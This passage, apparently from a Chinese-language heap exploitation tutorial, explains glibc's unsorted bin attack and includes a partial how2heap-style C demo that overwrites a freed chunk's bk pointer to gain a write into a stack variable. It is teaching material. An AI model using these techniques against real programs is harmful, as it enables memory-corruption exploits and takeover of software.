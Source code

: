 ```c
    }
}
```

上述代码中，有很明显的栈溢出，可以使用低位覆盖，来泄露出堆地址。因为代码并不会存储之前循环申请的地址，因此需通过合理的堆布局，使得name指向的地址能够是新一轮的p_role申请的地址，进而再次覆盖成原p_role然后打印出来。

## 9. Unsorted Bin Attack

堆在分配的时候，如果在申请的内存大小所对应的small bin或者large bin里面没有找到对应的chunk，此时会从unsorted bin里面去寻找chunk看是否存在合适的内存分配给用户，这个过程中会把unsorted bin链表给清空，清空的过程中没有进行检查，由此可能会发生任意地址可写。源代码如下：

```c
while(victim = unsorted_chunks (av)->bk) != unsorted_chunks (av))
//...
bck = victim->bk;
/* remove from unsorted list */
unsorted_chunks (av)->bk = bck;
bck->fd = unsorted_chunks (av);
```

试想如果bck的fd可以被我们控制，这个时候我们就可以让它指向任意地址，最终使`(bck->fd)+0x10`的值被修改成unsorted_chunks(av)，从而实现任意地址写，后续如果能够控制它指向到我们可控的内存区域，最终就有可能会控制整个程序。注意这里`unsorted_chunks (av)->bk`被改成了错误地址，有可能使得下一次`malloc`发生异常。

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
  printf("This file demonstrates unsorted bin attack by write a large unsigned "
         "long value into stackn");
  printf(
      "In practice, unsorted bin attack is generally prepared for further "
      "attacks, such as rewriting the "
      "global variable global_max_fast in libc for further fastbin attacknn");

  unsigned long stack_var = 0;
  printf("Let's first look at the target we want to rewrite on stack:n");
  printf("%p: %ldnn", &stack_var, stack_var);

  unsigned long *p = malloc(400);
  printf("Now, we allocate first normal chunk on the heap at: %pn", p);
  printf("And allocate another normal chunk in order to avoid consolidating "
         "the top chunk with"
         "the first one during the free()nn");
  malloc(500);

  free(p);
  printf("We free the first chunk now and it will be inserted in the unsorted "
         "bin with its bk pointer "
         "point to %pn",
         (void *)p[1]);

  //------------VULNERABILITY-----------

  p[1] = (unsigned long)(&stack_var - 2);
  printf("Now emulating a vulnerability that can overwrite the victim->bk "
         "pointern");
  printf("And we write it with the target address-16 (in 32-bits machine, it "
         "should be target address-8):%pnn",
         (void *)p[1]);

  //------------------------------------

  malloc(400);
```